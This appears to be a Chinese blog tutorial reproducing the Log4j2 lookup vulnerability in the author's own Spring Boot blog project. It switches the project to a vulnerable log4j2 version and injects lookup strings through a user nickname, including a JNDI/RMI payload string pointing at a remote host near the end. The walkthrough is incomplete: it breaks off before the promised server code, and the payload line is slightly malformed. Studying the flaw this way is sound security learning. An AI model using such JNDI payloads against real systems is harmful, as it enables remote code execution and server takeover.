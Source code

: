 大家好，我是白。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，白看了看他们的聊天内容，一句话：**核弹级的漏洞**。

![image-20211211101637119](https://cdn.losey.top/blog/image-20211211101637119.png)

此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。



## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

白百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

白本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。

![](https://cdn.losey.top/blog/image-20211211103106525.png)

## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。

![](https://cdn.losey.top/blog/image-20211211103331791.png)

下面，白打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。

![image-20211211112402759](https://cdn.losey.top/blog/image-20211211112402759.png)

下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**

![image-20211211112738831](https://cdn.losey.top/blog/image-20211211112738831.png)

因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本

![image-20211211112845702](https://cdn.losey.top/blog/image-20211211112845702.png)

## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目

![image-20211211114404537](https://cdn.losey.top/blog/image-20211211114404537.png)

然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**





${jndi.rmi://192.168.12.1:8888/danger}





在注册服务前，输入命令start rmiregistry，会弹出以下方框



start rmiregistry



```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

